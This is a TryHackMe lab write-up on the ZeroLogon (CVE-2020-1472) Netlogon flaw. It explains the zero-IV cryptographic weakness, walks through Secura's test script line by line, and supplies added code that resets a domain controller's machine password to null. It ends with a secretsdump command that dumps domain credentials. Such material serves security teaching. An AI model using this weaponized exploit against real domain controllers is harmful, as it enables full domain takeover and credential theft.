






zero logon
THM: Zero Logon
Theory:
The purpose of this room is to shed light on the ZeroLogon vulnerability within an educational focus. This is done such that defenders can better understand the threat faced herein. The ZeroLogon vulnerability is approached from a "Proof of Concept" emphasis, providing a breakdown of the vulnerable method within this issue. TryHackMe does not condone illegal actions taken on the part of the individual.
Zero Logon - The Zero Day Angle
About The vulnerability -
On September 14, Secura released a whitepaper for CVE-2020-1472, that allowed an attacker to go from Zero to Domain Admin in approximately one minute. They dubbed this vulnerability Zero Logon.
Zero Logon is a purely statistics based attack that abuses a feature within MS-NRPC (Microsoft NetLogon Remote Protocol), MS-NRPC is a critical authentication component of Active Directory that handles authentication for User and Machine accounts. In short -- the attack mainly focuses on a poor implementation of Cryptography. To be more specific, Microsoft chose to use AES-CFB8 for a function called ComputeNetlogonCredential, which is normally fine, except they had hard coded the Initialization Vector to use all zeros instead of a random string. When an attacker sends a message only containing zeros with the IV of zero, there is a 1-in-256 chance that the Ciphertext will be Zero.
But how is that useful to us? We'll touch on that note in the following sections.
About Machine Accounts -
Normally, if we tried a statistics based attack on any user account, we would get locked out. This is not the case if we apply this principal to machine accounts. Machines accounts behave in a much different way than standard user accounts. They have no predefined account lockout attempts because a 64+ character alpha numeric password is normally used to secure them, making them very difficult to break into. They're not meant to be accessed by an end user by any means. In certain circumstances, we can dump the machine account password using a tool like Mimikatz, but if we're at that point, we've already compromised the machine -- and we're looking for persistence within the domain, not lateral movement.
Abusing the Vulnerability -
Machine accounts often hold system level privileges which we can use for a variety of things. If you're not familiar with Active Directory, we can take the Domain Controller's Machine Account and attempt to use the granted authentication in conjunction with Secretsdump.py (SecretsDump is a password dumping utility like Mimikatz, except it lives on the Network instead of the host) to dump all of the passwords within the domain. At this point we have a rough kill chain starting to form:
Use Zero Logon to bypass authentication on the Domain Controller's Machine Account -> Run Secretsdump.py to dump credentials -> Crack/Pass Domain Admin Hashes -> ??? -> Profit
Analyzing the MS-NRPC Logon Process -
At this point, we know a vulnerability exists, but we're not quite sure how to exploit it yet. We'll be covering that soon, but what we do know there's a vulnerability within the way Microsoft handles Authentication within ComputeNetLogonCredetial function of MS-NRPC. To better understand the vulnerability, we need to do a bit of a deeper dive on how Microsoft handles authentication to NRPC.
To analyze where the vulnerability occurs, we'll be using the Diagram provided by Secura as well as Microsoft Documentation to decipher the magic behind Zero Logon. The sources can be found at the bottom of this task.

Source: SecuraStep 1. The client creates a NetrServerReqChallenge and sends it off
[Figure 1. Step 1].
This contains the following values:1. The DC
2. The Target Device (Also the DC, in our case)
3. A Nonce (In our case is 16 Bytes of Zero).
Step 2. The server receives the NetrServerReqChallenge, the server will then generate it's own Nonce (This is called the Server Challenge), the server will send the Server Challenge back.
[Figure 1. Step 2]Step 3. The client (us) will compute it's NetLogon Credentials with the Server Challenge provided
[Figure 1. Step 3]. It uses the NetrServerAuthenticate3 method which requires the following parameters:
1. A Custom Binding Handle (Impacket handles this for us, it's negotiated prior)
2. An Account Name (The Domain Controller's machine account name. ex: DC01$)
3. A Secure Channel Type (Impacket sort of handles this for us, but we still need to specify it: [nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel])
4. The Computer Name (The Domain Controller ex: DC01)
5. The Client Credential String (this will be 8 hextets of \x00 [16 Bytes of Zero])
6. Negotiation Flags (The following value observed from a Win10 client with Sign/Seal flags disabled: 0x212fffff Provided by Secura)
Step 4. The server will receive the NetrServerAuthenticate request and will compute the same request itself using it's known, good values. If the results are good, the server will send the required info back to the client.
[Figure 1. Step 4.]At this point the attempt to exploit the Zero Logon vulnerability is under way. The above steps above will be looped through a certain number of times to attempt to exploit the Zero Logon vulnerability. The actual exploit occurs at Step 3 and 4, this where we're hoping for the Server to a have the same computations as the client. This is where are 1-in-256 chance comes in.
Step 5. If the server calculates the same value, the client will re-verify and once mutual agreement is confirmed, they will agree on a session key. The session key will be used to encrypt communications between the client and the server, which means authentication is successful.
[Figure 1. Step 5]From there, normal RPC communications can occur.
Then install
impacket-toolkitModifying and Weaponizing the PoC
PoC and You -
Proof of Concepts are incredibly important to every exploit, without them, the exploit's are almost entirely theoretical. Fortunately, Secura was able to provide a working
Proof of Concept for Zero Logon that was 90% of the way there. We simply need to make an additional call to change the password to a null value, recall Figure 3 from Task 1, Secura was even kind enough to give us the method that we need to call (
NetrServerPasswordSet2). Looking up the method within the Microsoft Documentation, it's very similar to
hNetSeverAuthenticate3, so we're going to re-use some of the same variables from that, as well as the structure.
Analyzing the PoC -
Before we continue any further, you should download the PoC from Secura, which can be found here:
https://raw.githubusercontent.com/SecuraBV/CVE-2020-1472/master/zerologon_tester.pyThe script may seem quite daunting at first, but it's quite simple, if you think back to Figure 1 from Task 1, you'll quickly see how it all starts to fit together. Let's start by breaking the PoC down. We're going to be this in order of execution/importance so it's easier to digest:
Lines 3 - 131. from impacket.dcerpc.v5 import nrpc, epm
2. from impacket.dcerpc.v5.dtypes import NULL
3. from impacket.dcerpc.v5 import transport
4. from impacket import crypto
5.
6. import hmac, hashlib, struct, sys, socket, time
7. from binascii import hexlify, unhexlify
8. from subprocess import check_call
9. MAX_ATTEMPTS = 2000
Lines 1-4 import the required modules from Impacket, specifically the NRPC, EPM, Crypto, and Transport libraries. Additionally, on lines 6-8 a handful of other misc libraries are also imported, however, the Impacket libraries are the star of the show here. Lastly, on line 9, we're defining a constant (similar to a variable, but never changes) that sets the maximum number of retries for Zero Logon to 2000.
Lines 76 - 861. if __name__ == '__main__':
2. if not (3 <= len(sys.argv) <= 4):
3. print('Usage: zerologon_tester.py <dc-name> <dc-ip>\n')
4. print('Tests whether a domain controller is vulnerable to the Zerologon attack. Does not attempt to make any changes.')
5. print('Note: dc-name should be the (NetBIOS) computer name of the domain controller.')
6. sys.exit(1)
7. else:
8. [_, dc_name, dc_ip] = sys.argv
9.
10. dc_name = dc_name.rstrip('$')
11. perform_attack('\\\\' + dc_name, dc_ip, dc_name)
Next we skipped down to the very bottom of the script so some other variables will make sense later, Line 1 is essentially declaring a main function within Python, Line 2 we are checking for the amount of parameters, and ensuring that it's exactly 3 (zerologon_tester.py DCNAME IP). Lines 3-5 are printing the help menu only if it's greater than 3 arguments, or less than 2 and exiting. If the required arguments are supplied, on line 8 the arguments are being passed into two variables: dc_name, and dc_ip. After the arguments are passed, dc_name is being stripped of the "$" character, as the dc_name variable shouldn't have it. The user account name should however. Afterwards, it's passing the variables two variables and an additional, modified variable into a module called "perform_attack".
Lines 57 - 731. def perform_attack(dc_handle, dc_ip, target_computer):
2.
3. print('Performing authentication attempts...')
4. rpc_con = None
5. for attempt in range(0, MAX_ATTEMPTS):
6. rpc_con = try_zero_authenticate(dc_handle, dc_ip, target_computer)
7.
8. if rpc_con == None:
9. print('=', end='', flush=True)
10. else:
11. break
12.
13. if rpc_con:
14. print('\nSuccess! DC can be fully compromised by a Zerologon attack.')
15. else:
16. print('\nAttack failed. Target is probably patched.')
17. sys.exit(1)
Line 1 is defining where the variables are being passed into for the local function, \\DCNAME is being passed into the dc_handle variable, dc_ip is being passed into dc_ip variable, and dc_name is being passed into the target_computer variable. All of which will be used later, or passed into different modules.
Line 4 sets the variable rpc_con equal to none, this will be kept track of consistently to check and see if authentication is successful, if it's not, the script will continue until 2000 retries is hit. Line 5 is where the actual retries for Zero Logon occurs in the form of a for loop. Line 6 sets the rpc_con variable to the output of a different function called "try_zero_authenticate" with a couple of variables being passed to it, specifically dc_handle, dc_ip, and target_computer. All of which we addressed earlier. The next lines are simply checking if rpc_con is equal to a invalid login attempt, if it is, print =, if not, print success, if 2000 retries is hit: print attack failed.
Lines 20-251. def try_zero_authenticate(dc_handle, dc_ip, target_computer):
2.
3. binding = epm.hept_map(dc_ip, nrpc.MSRPC_UUID_NRPC, protocol='ncacn_ip_tcp')
4. rpc_con = transport.DCERPCTransportFactory(binding).get_dce_rpc()
5. rpc_con.connect()
6. rpc_con.bind(nrpc.MSRPC_UUID_NRPC)
Line 1 is defining the try_zero_authenticate function and is taking the previously mentioned 3 variables as input, and is passing them into the function. Lines 3-6 are establishing a bind and a session with NRPC over TCP/IP so that we can communicate with the domain controller.
Lines 27-401. plaintext = b'\x00' * 8
2. ciphertext = b'\x00' * 8
3.
4. flags = 0x212fffff
5.
6. nrpc.hNetrServerReqChallenge(rpc_con, dc_handle + '\x00', target_computer + '\x00', plaintext)
7. try:
8. server_auth = nrpc.hNetrServerAuthenticate3(rpc_con, dc_handle + '\x00', target_computer + '$\x00', nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel,target_computer + '\x00', ciphertext, flags)
Line 1 and 2 are establishing two new variables, plaintext and ciphertext containing 16 Bytes of "\x00" which will be used to exploit the Zero Logon vulnerability. Line 4 contains a variable called Flags. These are the default flags observed from a Windows 10 Client (using AES-CFB8) with the Sign and Seal bit disabled (Source/Credit: Secura).
Line 6 is where the fun beings -- This is where Step 1 beings in Figure 1, the client creates a NetrServerReqChallenge containing the following information required by the
Microsoft Documentation:
1. NTSTATUS NetrServerReqChallenge(
2. [in, unique, string] LOGONSRV_HANDLE PrimaryName,
3. [in, string] wchar_t* ComputerName,
4. [in] PNETLOGON_CREDENTIAL ClientChallenge,
5. );
The Primary Name being the DC Handle, the Computer Name being the Target Computer, and the Client Challenge being 16 bytes of "\x00".
And the client will receive back, which will be used in Figure 1, Step 2:
1. NTSTATUS NetrServerReqChallenge(
2. [out] PNETLOGON_CREDENTIAL ServerChallenge
3. );
Lines 8 sets up a try except (we'll see the rest of that in the next few lines), but in line 9 is where we actually attempt to exploit the Zero Logon vulnerability, this would be Figure 1, Step 3. This section requires a fair bit more information, per the Microsoft Documentation for
NetrServerAuthenticate3, the following is required:
1. NTSTATUS NetrServerAuthenticate3(
2. [in, unique, string] LOGONSRV_HANDLE PrimaryName,
3. [in, string] wchar_t* AccountName,
4. [in] NETLOGON_SECURE_CHANNEL_TYPE SecureChannelType,
5. [in, string] wchar_t* ComputerName,
6. [in] PNETLOGON_CREDENTIAL ClientCredential,
7. [in, out] ULONG * NegotiateFlags,
8. );
On line 9, we supply the DC_Handle as the Primary Name, the Target Computer plus a $ as the Machine Account Name (Recall, Machine accounts do not have lockout policies), the Secure Channel Type as the Secure Channel Type previously established over RPC, the target_computer variable as the ComputerName, the Ciphertext (16 bytes of "\x00" attempting to Abuse Zero Logon, remember there's 1-in-256 chance that the Ciphertext will be the same as the plaintext), and lastly, our flags variable that mimics those of a Windows 10 client machine.
1. NTSTATUS NetrServerAuthenticate3(
2. [out] PNETLOGON_CREDENTIAL ServerCredential,
3. [in, out] ULONG * NegotiateFlags,
4. [out] ULONG * AccountRid
5. );
Additionally, we expect to receive two (possibly 3) things back from the Server upon (hopefully) successful exploitation of Zero Logon: The ServerCredential and AccountRid, only one of which we are going to use.
Line 44 - 541. assert server_auth['ErrorCode'] == 0
2. return rpc_con
3.
4. except nrpc.DCERPCSessionError as ex:
5.
6. if ex.get_error_code() == 0xc0000022:
7. return None
8. else:
9. fail(f'Unexpected error code from DC: {ex.get_error_code()}.')
10.
11. except BaseException as ex:
12. fail(f'Unexpected error: {ex}.')
Line 1 is retrieving the Error Code from the Server_auth variable, or the variable assigned to establish an Authentication Session with the target device. If successful, we're going to return the rpc_con variable which will inform us that we have successfully bypassed Authentication with Zero Logon. Lines 3-12 are simply Error handling lines so the program doesn't break and exit after receiving an error back.
End of Transmission, What's Next? -
And that's all there is to the Proof of Concept. It's not some giant, scary monster. It even successfully exploit the Zero Logon vulnerability for us -- but it stops and doesn't do anything further, so how do we proceed?
Good question, next we need to take a look at the Microsoft Documentation itself and see what we can do to interact with NRPC Itself. If you're not familiar with NRPC, and you're not that technical of an individual, look back at the last step in Task 1, Figure 3 (hint: It tells us what we need to do).
What's It All Mean, Doc? -
After going back and peaking at Figure 3 on Task 1, or researching how to reset a password over RDP, you should have came across the following document:
https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/14b020a8-0bcf-4af5-ab72-cc92bc6b1d81The document outlines what information is required to change a password over NRPC. The following information is required to do so:
NTSTATUS NetrServerPasswordSet2(
[in, unique, string] LOGONSRV_HANDLE PrimaryName,
[in, string] wchar_t* AccountName,
[in] NETLOGON_SECURE_CHANNEL_TYPE SecureChannelType,
[in, string] wchar_t* ComputerName,
[in] PNETLOGON_AUTHENTICATOR Authenticator,
[in] PNL_TRUST_PASSWORD ClearNewPassword
);
Going back and looking at
NetrServerAuthenticate3 and
NetrServerPasswordSet2, we already have a handful of the information required, like the Primary Name, Account Name, Secure Channel Type, and the Computer Name. So we simply need two values, the Authenticator and the ClearNewPassword value. Both of these are documented from Microsoft, so lets take a look at the
Authenticator first:
typedef struct _NETLOGON_AUTHENTICATOR {
NETLOGON_CREDENTIAL Credential;
DWORD Timestamp;
}
And suddenly we've hit another unknown, NETLOGON_CREDENTIAL. Fortunately, Microsoft does have documentation for
NETLOGON_CREDENTIAL as well:
typedef struct _NETLOGON_CREDENTIAL {
CHAR data[8];
} NETLOGON_CREDENTIAL,
*PNETLOGON_CREDENTIAL;
Per the documentation, NETLOGON_CREDENTIAL can take 8 bytes of data, the second bullet point outlines that "the data field carries 8 bytes of encrypted data, as specified in the Netlogon Credential Computation", fortunately we know this value, thanks to Zero Logon, it's 8 bytes of Zero. In terms of the Timestamp, it's a DWORD value, so it can either be a one or a zero. Zero sounds perfectly find to me.
In order to change the password the Microsoft Documentation states that:
The Netlogon Password consists of 512 bytes of random padding (minus the length of the password, so junk+password) with the last four bytes indicting the length of the password, totaling 516 bytes.
For the simplicity of this room, we can simply supply 516 bytes of all 00 to make a null password. Eventually, we can work towards creating our own custom password, but once again, for simplicity, we're setting it to a null value now.
Level Up -
Now that we know the required arguments to change the password via NRPC, we actually have to implement it in Python. We need to take a look at the
nrpc.py module within Impacket to see the required structure for how we can craft a netrServerPasswordSet2 Request:
def hNetrServerPasswordSet2(dce, primaryName, accountName, secureChannelType, computerName, authenticator, clearNewPasswordBlob):
request = NetrServerPasswordSet2()
request['PrimaryName'] = checkNullString(primaryName)
request['AccountName'] = checkNullString(accountName)
request['SecureChannelType'] = secureChannelType
request['ComputerName'] = checkNullString(computerName)
request['Authenticator'] = authenticator
request['ClearNewPassword'] = clearNewPasswordBlob
return dce.request(request)
As expected, most of the field names are the same as what Microsoft provided, except with some differences. Next, we need to know how to structure the Authenticator portion as well:
class NETLOGON_AUTHENTICATOR(NDRSTRUCT):
structure = (
('Credential', NETLOGON_CREDENTIAL),
('Timestamp', DWORD),
)
The format here is a little bit different compared to the prior, but we'll adjust accordingly when we go to slot it into the PoC, but while we're talking about slotting it into the PoC, where will our added code go?
Our added code will go immediately before "return rpc_con" on line 45. This is where we know we have successful authentication, we want to grab that before we return to the previous function and terminate the RPC connection. Now that we know all the required information that we'll need to add to the PoC, we'll save you the painstaking effort of writing your own code, and you can use the pre-written code below. The above explanations should help aid in understanding it.
The Additional Code we're slotting in: newPassRequest = nrpc.NetrServerPasswordSet2()
newPassRequest['PrimaryName'] = dc_handle + '\x00'
newPassRequest['AccountName'] = target_computer + '$\x00'
newPassRequest['SecureChannelType'] = nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel
auth = nrpc.NETLOGON_AUTHENTICATOR()
auth['Credential'] = b'\x00' * 8
auth['Timestamp'] = 0
newPassRequest['Authenticator'] = auth
newPassRequest['ComputerName'] = target_computer + '\x00'
newPassRequest['ClearNewPassword'] = b'\x00' * 516
rpc_con.request(newPassRequest)
At this point, your code should be good to go, and you should be able to successfully exploit Zero Logon. If you are still having issues, you can use the following code found here
https://raw.githubusercontent.com/Sq00ky/Zero-Logon-Exploit/master/zeroLogon-NullPass.pyPractical LAB Solution:
Enumeration
We made the changes in the exploit as per the theory or get the changed one from the link in the theory. Then lets run it.

As this is a statistical attack, it can vary at what number of attempt it will work.
The
First instance is run by making no changes in the exploit. (POC). This just checks if the target is vulnerable.
The
second instance is run by adding the additional code which removes the password.
Password Miningimpacket-secretsdump -just-dc -no-pass DC01\$@10.10.239.0
Note: As Zero Logon Exploit targets machine accounts. The user for the above command is a machine name.
DC01$And
\ is used to escape the
$Foothold & Flags:
Evil-WinRM
Impacket-psexec